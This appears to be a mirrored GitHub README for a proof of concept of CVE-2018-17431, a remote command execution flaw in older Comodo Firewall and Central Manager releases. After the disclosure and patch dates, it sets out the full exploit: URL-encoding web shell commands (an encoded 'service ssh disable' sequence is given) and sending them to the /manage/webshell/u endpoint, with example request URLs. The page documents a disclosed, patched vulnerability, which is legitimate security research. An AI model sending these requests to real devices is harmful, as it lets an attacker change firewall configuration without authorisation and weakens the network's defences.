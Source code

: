 # CVE-2018-17431-PoC

Proof of consept for CVE-2018-17431

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Fadavvi](https://github.com/Fadavvi) |
| Url      | [https://github.com/Fadavvi/CVE-2018-17431-PoC](https://github.com/Fadavvi/CVE-2018-17431-PoC)                                               |
| Stars    | 1                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* comodo* cve* cve-2018-17431* exploit* poc* proof-of-concept* rce* remote-code-execution

</details>

## Readme

## CVE-2018-17431-PoC
Proof of consept for CVE-2018-17431

### Exploit Title: Comodo Firewall & Central Manager (UTM) All Release before 2.7.0 & 1.5.0 Remote Command Execution (Web Shell based)
### Exploit Author: Milad Fadavvi
### Vendor Homepage: https://www.comodo.com/
### Software Link: https://secure.comodo.com/home/purchase.php?pid=106&license=try&track=9276&af=9276
### Version: before 2.7.0 & 1.5.0
### Tested on: Windows:firefox/chrome - Kali:firefox
### Discovery Date: 2018-08-15 (reported in sameday)
### Confirmation than bug exist: 2018-09-22 ([Ticket ID: XWR-503-79437](https://github.com/Fadavvi/CVE-2018-17431-PoC/blob/master/Comodo-Confirmarion.png))
### Patch released: 2018-11-23 [Release Notes from Comodo](https://github.com/Fadavvi/CVE-2018-17431-PoC/raw/master/DomeFW2.7.0.ReleaseNote.pdf)

Exploit:

1. WebShell simulation:

        For example disable SSH in web shell is like this:
            - service [hit enter]
            - ssh [hit enter]
            - disable [hit enter]

2. Encode
        
        make above sequense encode with URL ECODING
        (I used burp encoder plugin)

        %73%65%72%76%69%63%65%0a%73%73%68%0a%64%69%73%61%62%6c%65%0a

3. Run 

        Base URL: https://[Comodo_Firewall_IP]:[WebPort]/manage/webshell/u?s=[Integer]&w=100&h=24&k=[Encoded_Command]&l=[Integer]&_=1534440840152
        
        
                  https://[Comodo_Firewall_IP]:[WebPort]/manage/webshell/u?s=[Integer]&w=100&h=24&k=%0a&l=[Integer]&_=1534440840152 (extra enter key for run the command)
                  

        Example: https://192.168.250.10:10443/manage/webshell/u?s=4&w=100&h=24&k=%73%65%72%76%69%63%65%0a%73%73%68%0a%64%69%73%61%62%6c%65%0a&l=21&_=1534440840152
        
              https://192.168.250.10:10443/manage/webshell/u?s=4&w=100&h=24&k=%0a&l=21&_=1534440840152


A page with **"Configuration has been altered"** message will show up and configuration changed!



### With this technic, we can simulate all WebShell Commands.



## Get the content

```
git clone https://github.com/Fadavvi/CVE-2018-17431-PoC
cd CVE-2018-17431-PoC
```

{% embed url="https://github.com/Fadavvi/CVE-2018-17431-PoC" %}

<figure><img src="https://avatars.githubusercontent.com/u/21213484?v=4" alt=""><figcaption><p>Fadavvi</p></figcaption></figure>
